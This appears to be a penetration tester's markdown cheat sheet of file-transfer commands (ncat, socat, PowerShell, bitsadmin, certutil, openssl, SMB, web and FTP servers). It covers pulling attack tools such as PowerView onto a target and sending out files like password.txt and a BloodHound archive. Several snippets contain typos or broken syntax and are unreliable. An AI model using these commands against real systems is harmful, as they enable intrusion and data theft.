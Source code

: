 # File-Transfers

***ncat***

```shell
nc -nv 192.168.1.129 4444 > file_to_send.txt # the file we will transfer 

nc -lnvp 4444 < file_to_send.txt # download file on the target machine 

```

***socat***

```shell

socat TCP4-LISTEN:1337,fork file:~/home/mastermind/key.txt # the file we will send 

socat - TCP4:192.168.1.129:1337 # download the file 

```

***powershell***

```powershell

New-Object System.Net.WebClient).DownloadFile('http://192.168.1.122:8080/file_to_download.txt',"C:\Users\Public\Downloads\file_to_download.txt")

```

```powershell

Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

```
***bitsadmin***

```powershell

bitsadmin /transfer n http://192.168.1.123/password.txt C:\User\Mastermind\password.txt # download the file

```

```powershell
# Download 
Import-Module bitstransfer;Start-BitsTransfer -Source "http://192.168.1.123/password.txt" -Destination C:\User\Mastermind\password.txt" 

```
```powershell
#upload 

Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql

```
***Certutil***

```
certutil.exe -verifyctl -split -f http://192.168.1.1/file.txt

```

***openssl***

```shell
# create the cert

openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# set up a server 

openssl s_server -quiet -accept 8081 -cert certificate.pem -key key.pem < /file_to_download.txt

# Download the file on target machine 

openssl s_client -connect 127.0.0.1:8080 -quiet > file_to_download.txt
```

***php***

```shell
php -r '$file = file_get_contents("http://10.10.10.12:8080/file_to_download.txt"); file_put_contents("file_to_download.txt",$file);'
```

***python***

```python 
import urlib.request

urllib.request.urlretrieve("http://10.10.10.12:8080/file_to_download.txt", "file_to_download.txt")

```
***ssh***

```shell
scp ~/file_tocopy.txt user@192.182.21.1:~/where_to_copy # to copy file  to the server 

scp user@192.192.1.1:file_to_download.txt ./file_to_download # to copy file  from the server 

```

***SMB***

```shell
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support FileToshare $(pwd) #without passowrd 

```
```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -user mastermind -password mastermind FileToshare $(pwd) # with password 

```
```shell
smbclinet //127.0.0.1/FileToshare -U "mastermind" # connect to smb and get the files 

PS C:\> net use Q: \\10.01.01.1\FileToshare # on windows 
PS C:\> pushd \\10.10.10.132\FileToshare #on windows 

```
***web servers***

```shell
php -S 0.0.0.0:1337

```
```shell
python3 -m http.server 8080

```
```shell
python -m SimpleHTTPServer 8080 #python2

```
```shell
ruby -run -ehttpd . -p8080
```

***ftp***

```shell
pip3 install pyftpdlib # install this module on ur machine

```

```shell
python3 -m pyftpdlib --user=mastermind --password=mastermind -w #setup ftp server 

```
```shell
ftp ip 2121 # connect to ftp server on 2121 
```













